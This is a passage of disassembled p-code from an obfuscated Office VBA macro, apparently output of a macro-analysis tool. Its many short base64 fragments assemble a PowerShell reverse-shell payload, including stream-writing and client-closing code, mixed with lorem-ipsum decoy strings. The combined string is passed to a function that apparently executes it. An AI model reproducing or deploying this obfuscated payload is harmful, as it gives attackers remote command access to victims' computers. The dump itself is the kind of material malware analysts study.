' 	VarDefn Osp29 (As Long)
' Line #371:
' 	LitStr 0x0004 "b24g"
' 	LitStr 0x0004 "aXBz"
' 	Add 
' 	LitStr 0x0004 "dW0g"
' 	Add 
' 	LitStr 0x0004 "bWlu"
' 	Add 
' 	St QabtP 
' Line #372:
' 	LitDI2 0x0000 
' 	St Osp29 
' Line #373:
' 	Dim 
' 	VarDefn Osp29
' Line #374:
' 	Ld vbNullString 
' 	St Osp29 
' Line #375:
' 	LitStr 0x0004 "aW0g"
' 	LitStr 0x0004 "ZG9s"
' 	Add 
' 	LitStr 0x0004 "b3Jl"
' 	Add 
' 	LitStr 0x0004 "IGlw"
' 	Add 
' 	St FrLRJ 
' Line #376:
' 	LitStr 0x0004 "c3Vt"
' 	LitStr 0x0004 "IGly"
' 	Add 
' 	LitStr 0x0004 "dXJl"
' 	Add 
' 	LitStr 0x0004 "IHNp"
' 	Add 
' 	St YPsuX 
' Line #377:
' 	LitStr 0x0004 "OgBB"
' 	LitStr 0x0004 "AFMA"
' 	Add 
' 	LitStr 0x0004 "QwBJ"
' 	Add 
' 	LitStr 0x0004 "AEkA"
' 	Add 
' 	St RBJvl 
' Line #378:
' 	LitStr 0x0004 "KQAu"
' 	LitStr 0x0004 "AEcA"
' 	Add 
' 	LitStr 0x0004 "ZQB0"
' 	Add 
' 	LitStr 0x0004 "AEIA"
' 	Add 
' 	St pRqIr 
' Line #379:
' 	Ld R1NHM 
' 	Ld byBLA 
' 	Add 
' 	Ld UikkC 
' 	Add 
' 	Ld RBJvl 
' 	Add 
' 	Ld pRqIr 
' 	Add 
' 	St VPBse 
' Line #380:
' 	LitStr 0x0004 "eQB0"
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	LitStr 0x0004 "cwAo"
' 	Add 
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	St bGQzY3 
' Line #381:
' 	LitStr 0x0004 "bnQs"
' 	LitStr 0x0004 "IHZl"
' 	Add 
' 	LitStr 0x0004 "bGl0"
' 	Add 
' 	LitStr 0x0004 "IGFk"
' 	Add 
' 	St ijVhE 
' Line #382:
' 	LitStr 0x0004 "aXBp"
' 	LitStr 0x0004 "c2lj"
' 	Add 
' 	LitStr 0x0004 "aW5n"
' 	Add 
' 	LitStr 0x0004 "IHF1"
' 	Add 
' 	St RYVqE 
' Line #383:
' 	LitStr 0x0004 "aXMg"
' 	LitStr 0x0004 "ZWxp"
' 	Add 
' 	LitStr 0x0004 "dCB1"
' 	Add 
' 	LitStr 0x0004 "dCBl"
' 	Add 
' 	St AIuMs 
' Line #384:
' 	Dim 
' 	VarDefn IEKb5B (As Byte)
' Line #385:
' 	LitDI2 0x00DF 
' 	St IEKb5B 
' Line #386:
' Line #387:
' 	Dim 
' 	VarDefn pOjSQr (As Boolean)
' Line #388:
' 	LitStr 0x0004 "aXVz"
' 	LitStr 0x0004 "bW9k"
' 	Add 
' 	LitStr 0x0004 "IGV1"
' 	Add 
' 	LitStr 0x0004 "IGFk"
' 	Add 
' 	St HAvJy 
' Line #389:
' 	LitVarSpecial (False)
' 	St pOjSQr 
' Line #390:
' 	Dim 
' 	VarDefn cHglGXfEZ (As Integer)
' Line #391:
' 	LitDI2 0x73A9 
' 	UMi 
' 	St cHglGXfEZ 
' Line #392:
' 	Dim 
' 	VarDefn ed4gJw (As Byte)
' Line #393:
' 	LitDI2 0x008E 
' 	St ed4gJw 
' Line #394:
' 	LitStr 0x0004 "cwBl"
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	LitStr 0x0004 "ZABi"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St JJSjQ 
' Line #395:
' 	Dim 
' 	VarDefn fTyU6v (As Double)
' Line #396:
' 	LitStr 0x0004 "aXBp"
' 	LitStr 0x0004 "c2lj"
' 	Add 
' 	LitStr 0x0004 "aW5n"
' 	Add 
' 	LitStr 0x0004 "IHV0"
' 	Add 
' 	St mRpBZ 
' Line #397:
' 	LitR8 0xCF31 0x7A4A 0x94EA 0x40DC 
' 	St fTyU6v 
' Line #398:
' 	LitStr 0x0004 "YwBr"
' 	LitStr 0x0004 "ADIA"
' 	Add 
' 	LitStr 0x0004 "KQA7"
' 	Add 
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	St pFlIo 
' Line #399:
' 	Dim 
' 	VarDefn zSagFKU (As Single)
' Line #400:
' 	LitStr 0x0004 "cwB0"
' 	LitStr 0x0004 "AHIA"
' 	Add 
' 	LitStr 0x0004 "ZQBh"
' 	Add 
' 	LitStr 0x0004 "AG0A"
' 	Add 
' 	St AWAKv 
' Line #401:
' 	LitR8 0x103D 0x1147 0xD527 0x40E7 
' 	FnSgn 
' 	St zSagFKU 
' Line #402:
' 	LitStr 0x0004 "IGV4"
' 	LitStr 0x0004 "IGFk"
' 	Add 
' 	LitStr 0x0004 "LiBM"
' 	Add 
' 	LitStr 0x0004 "YWJv"
' 	Add 
' 	St XzmkS 
' Line #403:
' 	LitStr 0x0004 "LgBX"
' 	LitStr 0x0004 "AHIA"
' 	Add 
' 	LitStr 0x0004 "aQB0"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St RPdyS 
' Line #404:
' 	Dim 
' 	VarDefn hphr2X (As Long)
' Line #405:
' 	LitDI4 0xF76A 0x3F54 
' 	UMi 
' 	St hphr2X 
' Line #406:
' 	Dim 
' 	VarDefn RkSKa8W2 (As Double)
' Line #407:
' 	LitStr 0x0004 "cnVt"
' 	LitStr 0x0004 "IGlu"
' 	Add 
' 	LitStr 0x0004 "IHNp"
' 	Add 
' 	LitStr 0x0004 "dCBl"
' 	Add 
' 	St gxrmw 
' Line #408:
' 	LitR8 0xBB0D 0xDF3E 0x4328 0x40E2 
' 	St RkSKa8W2 
' Line #409:
' 	Ld bGQzY3 
' 	Ld JJSjQ 
' 	Add 
' 	Ld pFlIo 
' 	Add 
' 	Ld AWAKv 
' 	Add 
' 	Ld RPdyS 
' 	Add 
' 	St JhBoL 
' Line #410:
' 	Dim 
' 	VarDefn znDw0YU (As Long)
' Line #411:
' 	LitStr 0x0004 "eGNl"
' 	LitStr 0x0004 "cHRl"
' 	Add 
' 	LitStr 0x0004 "dXIg"
' 	Add 
' 	LitStr 0x0004 "ZW5p"
' 	Add 
' 	St EPRsW 
' Line #412:
' 	LitStr 0x0004 "KAAk"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "ZQBu"
' 	Add 
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	St Z0dnOW 
' Line #413:
' 	LitDI4 0x88B8 0x6B00 
' 	UMi 
' 	FnSgn 
' 	St znDw0YU 
' Line #414:
' 	LitStr 0x0004 "bSBp"
' 	LitStr 0x0004 "cHN1"
' 	Add 
' 	LitStr 0x0004 "bSBl"
' 	Add 
' 	LitStr 0x0004 "eGVy"
' 	Add 
' 	St NjJNq 
' Line #415:
' 	LitStr 0x0004 "Y2l0"
' 	LitStr 0x0004 "YXRp"
' 	Add 
' 	LitStr 0x0004 "b24g"
' 	Add 
' 	LitStr 0x0004 "Y2ls"
' 	Add 
' 	St GBGgZ 
' Line #416:
' 	Dim 
' 	VarDefn OMPgOEDld (As Integer)
' Line #417:
' 	LitStr 0x0004 "YgB5"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "ZQAs"
' 	Add 
' 	LitStr 0x0004 "ADAA"
' 	Add 
' 	St kljAd 
' Line #418:
' 	LitStr 0x0004 "LAAk"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "ZQBu"
' 	Add 
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	St shxwb 
' Line #419:
' 	LitStr 0x0004 "YgB5"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "ZQAu"
' 	Add 
' 	LitStr 0x0004 "AEwA"
' 	Add 
' 	St CiACq 
' Line #420:
' 	LitDI2 0x5D02 
' 	St OMPgOEDld 
' Line #421:
' 	LitStr 0x0004 "ZQBu"
' 	LitStr 0x0004 "AGcA"
' 	Add 
' 	LitStr 0x0004 "dABo"
' 	Add 
' 	LitStr 0x0004 "ACkA"
' 	Add 
' 	St ityon 
' Line #422:
' 	LitStr 0x0004 "bHVt"
' 	LitStr 0x0004 "IExv"
' 	Add 
' 	LitStr 0x0004 "cmVt"
' 	Add 
' 	LitStr 0x0004 "IGlu"
' 	Add 
' 	St QiIzg 
' Line #423:
' 	Dim 
' 	VarDefn hWX49qI (As Double)
' Line #424:
' 	LitStr 0x0004 "Y2lk"
' 	LitStr 0x0004 "aWR1"
' 	Add 
' 	LitStr 0x0004 "bnQg"
' 	Add 
' 	LitStr 0x0004 "bGFi"
' 	Add 
' 	St brQpW 
' Line #425:
' 	LitR8 0xA6E9 0x52D4 0xBD4A 0x40E2 
' 	FnSgn 
' 	St hWX49qI 
' Line #426:
' 	Ld Z0dnOW 
' 	Ld kljAd 
' 	Add 
' 	Ld shxwb 
' 	Add 
' 	Ld CiACq 
' 	Add 
' 	Ld ityon 
' 	Add 
' 	St JAIli 
' Line #427:
' 	Ld JhBoL 
' 	Ld JAIli 
' 	Add 
' 	St zdXRkt 
' Line #428:
' 	Dim 
' 	VarDefn C7hrqJR (As Single)
' Line #429:
' 	LitR8 0x689A 0x633C 0x3368 0x40E7 
' 	St C7hrqJR 
' Line #430:
' 	Dim 
' 	VarDefn o14xvDEqn (As String)
' Line #431:
' 	Ld V3ziJoh 
' 	FnLen 
' 	St o14xvDEqn 
' Line #432:
' Line #433:
' 	Dim 
' 	VarDefn SwmES56l (As Boolean)
' Line #434:
' 	LitVarSpecial (False)
' 	St SwmES56l 
' Line #435:
' 	Ld VPBse 
' 	Ld zdXRkt 
' 	Add 
' 	St Q0ZMdz 
' Line #436:
' 	LitStr 0x0004 "b3Jp"
' 	LitStr 0x0004 "cyB1"
' 	Add 
' 	LitStr 0x0004 "bGxh"
' 	Add 
' 	LitStr 0x0004 "bWNv"
' 	Add 
' 	St RFriR 
' Line #437:
' 	Dim 
' 	VarDefn cwfhbWQS (As Boolean)
' Line #438:
' 	LitVarSpecial (False)
' 	St cwfhbWQS 
' Line #439:
' 	Dim 
' 	VarDefn mmEjCn (As Single)
' Line #440:
' 	LitStr 0x0004 "IG5p"
' 	LitStr 0x0004 "c2kg"
' 	Add 
' 	LitStr 0x0004 "YW1l"
' 	Add 
' 	LitStr 0x0004 "dCB2"
' 	Add 
' 	St JPqmr 
' Line #441:
' 	LitR8 0x0CF2 0xB06E 0xE604 0x408F 
' 	ArgsLd Val 0x0001 
' 	St mmEjCn 
' Line #442:
' 	Dim 
' 	VarDefn nC6U5 (As Long)
' Line #443:
' 	LitDI4 0x38F0 0x5B6A 
' 	UMi 
' 	St nC6U5 
' Line #444:
' 	LitStr 0x0004 "ZWxp"
' 	LitStr 0x0004 "dCBy"
' 	Add 
' 	LitStr 0x0004 "ZXBy"
' 	Add 
' 	LitStr 0x0004 "ZWhl"
' 	Add 
' 	St BxFoB 
' Line #445:
' 	Dim 
' 	VarDefn xCa8DAm (As Long)
' Line #446:
' 	LitStr 0x0004 "bmRl"
' 	LitStr 0x0004 "cml0"
' 	Add 
' 	LitStr 0x0004 "IG5v"
' 	Add 
' 	LitStr 0x0004 "c3Ry"
' 	Add 
' 	St osLCu 
' Line #447:
' 	LitDI2 0x0000 
' 	St xCa8DAm 
' Line #448:
' 	Ld x0YlF 
' 	Ld Q0ZMdz 
' 	Add 
' 	St czbUl 
' Line #449:
' 	LitStr 0x0004 "dWQg"
' 	LitStr 0x0004 "bGFi"
' 	Add 
' 	LitStr 0x0004 "b3J1"
' 	Add 
' 	LitStr 0x0004 "bSBj"
' 	Add 
' 	St IjFid 
' Line #450:
' 	Dim 
' 	VarDefn D2hRsXr (As Single)
' Line #451:
' 	LitR8 0x22D4 0x7821 0x5804 0x40DB 
' 	FnFix 
' 	St D2hRsXr 
' Line #452:
' 	LitStr 0x0004 "b21t"
' 	LitStr 0x0004 "b2Rv"
' 	Add 
' 	LitStr 0x0004 "IGN1"
' 	Add 
' 	LitStr 0x0004 "cGlk"
' 	Add 
' 	St BpIbv 
' Line #453:
' 	LitStr 0x0004 "OwAk"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "dABy"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St jBXdXl 
' Line #454:
' 	Dim 
' 	VarDefn AWm5YI (As Single)
' Line #455:
' 	LitStr 0x0004 "YQBt"
' 	LitStr 0x0004 "AC4A"
' 	Add 
' 	LitStr 0x0004 "RgBs"
' 	Add 
' 	LitStr 0x0004 "AHUA"
' 	Add 
' 	St KmeaN 
' Line #456:
' 	LitR8 0xB996 0xA7A5 0xC5A5 0x40DC 
' 	St AWm5YI 
' Line #457:
' 	Dim 
' 	VarDefn qxz6d (As String)
' Line #458:
' 	LitStr 0x0004 "ACgA"
' 	LitStr 0x0004 "KQB9"
' 	Add 
' 	LitStr 0x0004 "ADsA"
' 	Add 
' 	St cwMtq 
' Line #459:
' 	Ld UCase 
' 	ArgsLd tnrCg4 0x0001 
' 	St qxz6d 
' Line #460:
' 	Dim 
' 	VarDefn j29C4 (As Integer)
' Line #461:
' 	LitDI2 0x7B16 
' 	UMi 
' 	St j29C4 
' Line #462:
' 	LitStr 0x0004 "YXRh"
' 	LitStr 0x0004 "dCBM"
' 	Add 
' 	LitStr 0x0004 "b3Jl"
' 	Add 
' 	LitStr 0x0004 "bSBw"
' 	Add 
' 	St DsRLw 
' Line #463:
' 	Dim 
' 	VarDefn qn0BhzkU (As Integer)
' Line #464:
' 	LitDI2 0x62FD 
' 	UMi 
' 	St qn0BhzkU 
' Line #465:
' 	Dim 
' 	VarDefn nfKuR (As Long)
' Line #466:
' 	LitStr 0x0004 "JABj"
' 	LitStr 0x0004 "AGwA"
' 	Add 
' 	LitStr 0x0004 "aQBl"
' 	Add 
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	St GaDRD 
' Line #467:
' 	LitStr 0x0004 "YXJp"
' 	LitStr 0x0004 "YXR1"
' 	Add 
' 	LitStr 0x0004 "ci4g"
' 	Add 
' 	LitStr 0x0004 "RWEg"
' 	Add 
' 	St jqGyn 
' Line #468:
' 	LitStr 0x0004 "dAAu"
' 	LitStr 0x0004 "AEMA"
' 	Add 
' 	LitStr 0x0004 "bABv"
' 	Add 
' 	St xPYjM 
' Line #469:
' 	LitDI4 0xF76E 0x580D 
' 	UMi 
' 	St nfKuR 
' Line #470:
' 	Dim 
' 	VarDefn hRIOYu0P (As String)
' Line #471:
' 	LitStr 0x0004 "YXV0"
' 	LitStr 0x0004 "ZSBp"
' 	Add 
' 	LitStr 0x0004 "cHN1"
' 	Add 
' 	LitStr 0x0004 "bSBj"
' 	Add 
' 	St VjEqW 
' Line #472:
' 	Ld gE6Pop 
' 	ArgsLd tnrCg4 0x0001 
' 	St hRIOYu0P 
' Line #473:
' 	Dim 
' 	VarDefn u83KtkuUM (As Integer)
' Line #474:
' 	LitDI2 0x4043 
' 	UMi 
' 	FnSgn 
' 	St u83KtkuUM 
' Line #475:
' 	Dim 
' 	VarDefn f7XBS (As Integer)
' Line #476:
' 	LitDI2 0x7473 
' 	UMi 
' 	St f7XBS 
' Line #477:
' 	Dim 
' 	VarDefn EVI12su (As Byte)
' Line #478:
' 	LitStr 0x0004 "b21t"
' 	LitStr 0x0004 "b2Rv"
' 	Add 
' 	LitStr 0x0004 "IGlk"
' 	Add 
' 	LitStr 0x0004 "IGFt"
' 	Add 
' 	St EqfRT 
' Line #479:
' 	LitDI2 0x0072 
' 	St EVI12su 
' Line #480:
' 	Dim 
' 	VarDefn AUcfFq9 (As String)
' Line #481:
' 	LitStr 0x0004 "AHMA"
' 	LitStr 0x0004 "ZQAo"
' 	Add 
' 	LitStr 0x0004 "ACkA"
' 	Add 
' 	St YNZPh 
' Line #482:
' 	Ld MeA5R 
' 	ArgsLd LCase 0x0001 
' 	St AUcfFq9 
' Line #483:
' 	Ld jBXdXl 
' 	Ld KmeaN 
' 	Add 
' 	LitStr 0x0004 "cwBo"
' 	Add 
' 	Ld cwMtq 
' 	Add 
' 	St actEZ 
' Line #484:
' 	Dim 
' 	VarDefn BecExo (As Integer)
' Line #485:
' 	LitDI2 0x6BAB 
' 	UMi 
' 	St BecExo 
' Line #486:
' 	Dim 
' 	VarDefn Mdc1k4 (As Integer)
' Line #487:
' 	LitDI2 0x542B 
' 	FnSgn 
' 	St Mdc1k4 
' Line #488:
' 	LitStr 0x0004 "ZXQg"
' 	LitStr 0x0004 "ZWEg"
' 	Add 
' 	LitStr 0x0004 "ZnVn"
' 	Add 
' 	LitStr 0x0004 "aWF0"
' 	Add 
' 	St oMIYB 
' Line #489:
' 	Dim 
' 	VarDefn HHrKFm0Jj (As Long)
' Line #490:
' 	Ld GaDRD 
' 	Ld xPYjM 
' 	Add 
' 	Ld YNZPh 
' 	Add 
' 	St URHWDd 
' Line #491:
' 	Ld actEZ 
' 	Ld URHWDd 
' 	Add 
' 	St FHdG5J 
' Line #492:
' 	LitDI4 0x1396 0x15E9 
' 	UMi 
' 	St HHrKFm0Jj 
' Line #493:
' 	Dim 
' 	VarDefn pWURX
' Line #494:
' 	LitStr 0x0004 "LCBu"
' 	LitStr 0x0004 "dWxs"
' 	Add 
' 	LitStr 0x0004 "YS4K"
' 	Add 
' 	LitStr 0x0004 "Ck1v"
' 	Add 
' 	St hipjt 
' Line #495:
' 	LitStr 0x0004 "bGxp"
' 	LitStr 0x0004 "dCBp"
' 	Add 
' 	LitStr 0x0004 "cHN1"
' 	Add 
' 	LitStr 0x0004 "bSBj"
' 	Add 
' 	St JblsG 
' Line #496:
' 	Ld czbUl 
' 	Ld FHdG5J 
' 	Add 
' 	St aSllkY 
' Line #497:
' 	Ld rinQ5t 
' 	ArgsLd RTrim 0x0001 
' 	St pWURX 
' Line #498:
' 	Dim 
' 	VarDefn ft72X (As Integer)
' Line #499:
' 	LitDI2 0x5715 
' 	FnSgn 
' 	St ft72X 
' Line #500:
' 	Dim 
' 	VarDefn vVLP4mb (As Boolean)
' Line #501:
' 	LitStr 0x0004 "b21t"
' 	LitStr 0x0004 "b2Rv"
' 	Add 
' 	LitStr 0x0004 "IGVs"
' 	Add 
' 	LitStr 0x0004 "aXQg"
' 	Add 
' 	St VAISR 
' Line #502:
' 	LitVarSpecial (False)
' 	St vVLP4mb 
' Line #503:
' 	Dim 
' 	VarDefn TWljx1we (As Long)
' Line #504:
' 	LitDI2 0x0000 
' 	St TWljx1we 
' Line #505:
' 	LitStr 0x0004 "YW1l"
' 	LitStr 0x0004 "dCBw"
' 	Add 
' 	LitStr 0x0004 "cm9p"
' 	Add 
' 	LitStr 0x0004 "ZGVu"
' 	Add 
' 	St yompr 
' Line #506:
' 	LitStr 0x0004 "dCBv"
' 	LitStr 0x0004 "ZmZp"
' 	Add 
' 	LitStr 0x0004 "Y2lh"
' 	Add 
' 	LitStr 0x0004 "IGxh"
' 	Add 
' 	St rUZyi 
' Line #507:
' 	Dim 
' 	VarDefn R91MJgr (As Double)
' Line #508:
' 	LitR8 0xD4D1 0x7046 0x9476 0x40EE 
' 	FnInt 
' 	St R91MJgr 
' Line #509:
' 	LitStr 0x0004 "Ym9y"
' 	LitStr 0x0004 "ZSBw"
' 	Add 
' 	LitStr 0x0004 "cm9p"
' 	Add 
' 	LitStr 0x0004 "ZGVu"
' 	Add 
' 	St OAoGg 
' Line #510:
' 	Dim 
' 	VarDefn HJAfGelUm (As Double)
' Line #511:
' 	Ld aSllkY 
' 	Ld f6tDZP72 
' 	ArgsCall b3jkS29pZ 0x0002 
' Line #512:
' 	LitR8 0x4528 0x5398 0x9EB9 0x40DA 
' 	St HJAfGelUm 
' Line #513:
' 	Dim 
' 	VarDefn w7VGb (As Double)
' Line #514:
' 	Dim 
' 	VarDefn q9Pm3rON (As Byte)
' Line #515:
' 	LitDI2 0x006A 
' 	St q9Pm3rON 
' Line #516:
' 	LitR8 0x23EA 0x1D62 0x76A9 0x40C9 
' 	FnSgn 
' 	St w7VGb 
' Line #517:
' 	Dim 
' 	VarDefn dybowJ6 (As Double)
' Line #518:
' 	Dim 
' 	VarDefn w8rLz4v (As Integer)
' Line #519:
' 	LitStr 0x0004 "dCBl"
' 	LitStr 0x0004 "c3Qg"
' 	Add 
' 	LitStr 0x0004 "YW1l"
' 	Add 
' 	LitStr 0x0004 "dCBt"
' 	Add 
' 	St JDruX 
' Line #520:
' 	LitR8 0x7146 0xA0DD 0x545A 0x40EC 
' 	FnSgn 
' 	St dybowJ6 
' Line #521:
' 	LitStr 0x0004 "aW5p"
' 	LitStr 0x0004 "bSBh"
' 	Add 
' 	LitStr 0x0004 "dXRl"
' 	Add 
' 	LitStr 0x0004 "IGN1"
' 	Add 
' 	St iSGzO 
' Line #522:
' 	Dim 
' 	VarDefn yFebo (As Byte)
' Line #523:
' 	LitDI2 0x00CD 
' 	St yFebo 
' Line #524:
' 	LitDI2 0x4B16 
' 	St w8rLz4v 
' Line #525:
' 	Dim 
' 	VarDefn Q5u4Ux (As Integer)
' Line #526:
' 	Dim 
' 	VarDefn Dy4OF3 (As Integer)
' Line #527:
' 	LitDI2 0x005C 
' 	UMi 
' 	FnSgn 
' 	St Q5u4Ux 
' Line #528:
' 	LitDI2 0x5677 
' 	UMi 
' 	St Dy4OF3 
' Line #529:
' 	Dim 
' 	VarDefn tuFt5LxXi (As Double)
' Line #530:
' 	LitStr 0x0004 "cGlk"
' 	LitStr 0x0004 "YXRh"
' 	Add 
' 	LitStr 0x0004 "dCBl"
' 	Add 
' 	LitStr 0x0004 "eGNl"
' 	Add 
' 	St UgRsK 
' Line #531:
' 	LitR8 0xEDF1 0x6F1E 0xD0F5 0x40E9 
' 	FnSgn 
' 	St tuFt5LxXi 
' Line #532:
' 	Dim 
' 	VarDefn Qyso9 (As Double)
' Line #533:
' 	LitStr 0x0004 "cHRl"
' 	LitStr 0x0004 "dXIg"
' 	Add 
' 	LitStr 0x0004 "dWxs"
' 	Add 
' 	LitStr 0x0004 "YW1j"
' 	Add 
' 	St JVyGF 
' Line #534:
' 	Dim 
' 	VarDefn j4rO2C3UM (As Byte)
' Line #535:
' 	LitStr 0x0004 "byBj"
' 	LitStr 0x0004 "dWxw"
' 	Add 
' 	LitStr 0x0004 "YS4g"
' 	Add 
' 	LitStr 0x0004 "TWlu"
' 	Add 
' 	St okPBe 
' Line #536:
' 	LitDI2 0x00E2 
' 	St j4rO2C3UM 
' Line #537:
' Line #538:
' 	Dim 
' 	VarDefn EdzhLtA (As Single)
' Line #539:
' 	LitR8 0x133D 0xA6CF 0x54C8 0x40E4 
' 	FnSgn 
' 	St Qyso9 
' Line #540:
' 	Dim 
' 	VarDefn cCIJjMV5H (As Integer)
' Line #541:
' 	LitDI2 0x5521 
' 	UMi 
' 	FnSgn 
' 	St cCIJjMV5H 
' Line #542:
' 	LitR8 0x6EA7 0xE47D 0x66DA 0x40EA 
' 	St EdzhLtA 
' Line #543:
' 	LitStr 0x0004 "aW0g"
' 	LitStr 0x0004 "c2lu"
' 	Add 
' 	LitStr 0x0004 "dCBk"
' 	Add 
' 	LitStr 0x0004 "b2xv"
' 	Add 
' 	St xlCjH 
' Line #544:
' 	Dim 
' 	VarDefn FizlBfv (As Long)
' Line #545:
' 	LitDI4 0xE28E 0x6B73 
' 	UMi 
' 	St FizlBfv 
' Line #546:
' 	Dim 
' 	VarDefn DedbcqpBn (As Long)
' Line #547:
' 	LitDI4 0x8768 0x5D6D 
' 	UMi 
' 	FnSgn 
' 	St DedbcqpBn 
' Line #548:
' 	Dim 
' 	VarDefn d7xA0H (As Byte)
' Line #549:
' 	LitDI2 0x0070 
' 	St d7xA0H 
' Line #550:
' 	LitStr 0x0004 "cmUg"
' 	LitStr 0x0004 "ZG9s"
' 	Add 
' 	LitStr 0x0004 "b3Ig"
' 	Add 
' 	LitStr 0x0004 "dGVt"
' 	Add 
' 	St KoKod 
' Line #551:
' 	Dim 
' 	VarDefn NFYAy (As Boolean)
' Line #552:
' 	Dim 
' 	VarDefn SmzwYiSDN (As Long)
' Line #553:
' 	LitDI2 0x0000 
' 	St SmzwYiSDN 
' Line #554:
' 	Dim 
' 	VarDefn yWieuNyr (As Long)
' Line #555:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St yWieuNyr 
' Line #556:
' 	Dim 
' 	VarDefn m3NFB (As Boolean)
' Line #557:
' 	LitStr 0x0004 "cG9y"
' 	LitStr 0x0004 "IGVz"
' 	Add 
' 	LitStr 0x0004 "c2Ug"
' 	Add 
' 	LitStr 0x0004 "ZG9s"
' 	Add 
' 	St fQkqs 
' Line #558:
' 	LitVarSpecial (True)
' 	St m3NFB 
' Line #559:
' 	LitVarSpecial (True)
' 	St NFYAy 
' Line #560:
' 	LitStr 0x0004 "b3Iu"
' 	LitStr 0x0004 "IEFt"
' 	Add 
' 	LitStr 0x0004 "ZXQg"
' 	Add 
' 	LitStr 0x0004 "dXQg"
' 	Add 
' 	St gIfeY 
' Line #561:
' 	LitStr 0x0004 "ZnVn"
' 	LitStr 0x0004 "aWF0"
' 	Add 
' 	LitStr 0x0004 "IGxh"
' 	Add 
' 	LitStr 0x0004 "Ym9y"
' 	Add 
' 	St ECDuA 
' Line #562:
' 	Dim 
' 	VarDefn OxZfK7 (As Single)
' Line #563:
' 	Dim 
' 	VarDefn sptEU4 (As Single)
' Line #564:
' 	LitR8 0x8DA0 0x8CF9 0xA62F 0x40EB 
' 	FnSgn 
' 	St OxZfK7 
' Line #565:
' 	LitR8 0x2E00 0xB984 0x305F 0x40DF 
' 	ArgsLd Round 0x0001 
' 	St sptEU4 
' Line #566:
' 	Dim 
' 	VarDefn pt30gX (As Byte)
' Line #567:
' 	LitDI2 0x00C3 
' 	St pt30gX 
' Line #568:
' 	LitStr 0x0004 "dW0g"
' 	LitStr 0x0004 "dXQg"
' 	Add 
' 	LitStr 0x0004 "c3Vu"
' 	Add 
' 	LitStr 0x0004 "dCB2"
' 	Add 
' 	St NATAf 
' Line #569:
' 	Dim 
' 	VarDefn aOpRZl (As Long)
' Line #570:
' 	LitStr 0x0004 "b2x1"
' 	LitStr 0x0004 "cHRh"
' 	Add 
' 	LitStr 0x0004 "dGUg"
' 	Add 
' 	LitStr 0x0004 "Y29u"
' 	Add 
' 	St hUztc 
' Line #571:
' 	LitStr 0x0004 "c2Vx"
' 	LitStr 0x0004 "dWF0"
' 	Add 
' 	LitStr 0x0004 "IGlw"
' 	Add 
' 	LitStr 0x0004 "c3Vt"
' 	Add 
' 	St hOoXR 
' Line #572:
' 	Dim 
' 	VarDefn ybeBadV (As Double)
' Line #573:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St aOpRZl 
' Line #574:
' 	Dim 
' 	VarDefn P2FHdxje (As Byte)
' Line #575:
' 	LitStr 0x0004 "IGVz"
' 	LitStr 0x0004 "dCB2"
' 	Add 
' 	LitStr 0x0004 "ZW5p"
' 	Add 
' 	LitStr 0x0004 "YW0g"
' 	Add 
' 	St dRZlf 
' Line #576:
' 	LitStr 0x0004 "YXV0"
' 	LitStr 0x0004 "ZSBv"
' 	Add 
' 	LitStr 0x0004 "ZmZp"
' 	Add 
' 	LitStr 0x0004 "Y2lh"
' 	Add 
' 	St QDFtt 
' Line #577:
' 	LitDI2 0x0082 
' 	St P2FHdxje 
' Line #578:
' 	LitR8 0xEF5F 0x33B7 0xC41E 0x40E3 
' 	St ybeBadV 
' Line #579:
' 	Dim 
' 	VarDefn pVPo6IW (As Single)
' Line #580:
' 	Dim 
' 	VarDefn GizYh (As Single)
' Line #581:
' 	LitR8 0x7596 0x4720 0xA40F 0x40E5 
' 	FnInt 
' 	St pVPo6IW 
' Line #582:
' 	Dim 
' 	VarDefn Rd6G2 (As Integer)
' Line #583:
' 	LitR8 0xA942 0xF0EB 0xF63D 0x40EE 
' 	St GizYh 
' Line #584:
' 	LitStr 0x0004 "IGVs"
' 	LitStr 0x0004 "aXQs"
' 	Add 
' 	LitStr 0x0004 "IHVs"
' 	Add 
' 	LitStr 0x0004 "bGFt"
' 	Add 
' 	St BSvKk 
' Line #585:
' 	Dim 
' 	VarDefn yFXgUtz (As Single)
' Line #586:
' 	LitStr 0x0004 "Y28g"
' 	LitStr 0x0004 "bWlu"
' 	Add 
' 	LitStr 0x0004 "aW0u"
' 	Add 
' 	LitStr 0x0004 "IEFt"
' 	Add 
' 	St VCZfV 
' Line #587:
' 	LitR8 0xFC2C 0x9EC5 0xA301 0x40DB 
' 	FnInt 
' 	St yFXgUtz 
' Line #588:
' 	LitDI2 0x2841 
' 	St Rd6G2 
' Line #589:
' 	LitStr 0x0004 "ZXQg"
' 	LitStr 0x0004 "bGFi"
' 	Add 
' 	LitStr 0x0004 "b3Jl"
' 	Add 
' 	LitStr 0x0004 "IGVs"
' 	Add 
' 	St PueNn 
' Line #590:
' 	LitStr 0x0004 "aXQg"
' 	LitStr 0x0004 "bmlz"
' 	Add 
' 	LitStr 0x0004 "aSBw"
' 	Add 
' 	LitStr 0x0004 "cm9p"
' 	Add 
' 	St cnVEh 
' Line #591:
' Line #592:
' 	Dim 
' 	VarDefn RaivVgeLX (As Byte)
' Line #593:
' 	Dim 
' 	VarDefn wldVQC (As Integer)
' Line #594:
' 	LitDI2 0x00F3 
' 	St RaivVgeLX 
' Line #595:
' 	LitStr 0x0004 "ZGVu"
' 	LitStr 0x0004 "dCBk"
' 	Add 
' 	LitStr 0x0004 "dWlz"
' 	Add 
' 	LitStr 0x0004 "IGRv"
' 	Add 
' 	St HJwOJ 
' Line #596:
' 	Dim 
' 	VarDefn yjy9IKBOG
' Line #597:
